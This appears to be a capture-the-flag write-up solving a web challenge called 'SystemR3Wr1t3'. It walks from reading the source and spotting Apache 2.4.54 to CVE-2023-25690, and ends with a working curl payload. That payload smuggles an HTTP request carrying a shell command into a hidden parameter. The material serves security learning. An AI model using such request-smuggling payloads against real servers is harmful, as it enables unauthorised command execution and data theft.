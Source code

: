 # How to solve SystemR3Wr1t3
## Tools
1. Burpsuite (or just curl works)

## Steps
1. Visit the target website
2. Follow instructions (for example, by going to /whatsmyid/2)
3. You get back an ID and a request path.
4. Read through `index.php` and notice that there is a hidden request parameter that you can't access as its only available behind the reverse proxy
5. Look for webserver version in Request headers
6. Google Apache 2.4.54 vulnerabilities
7. Find one CVE-2023-25690
8. Look for a POC to learn how to craft the payload. You can't automate this as far as I know as the environment is not a usual environment and requires understanding the infrastructure.
9. Final payload:
```
curl "http://localhost:8123/whatsmyid/out%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/%3fsecret%3dcp%2520%252Fflag.txt%2520%252Ftmp%252Fout.txt"
```
10. Get flag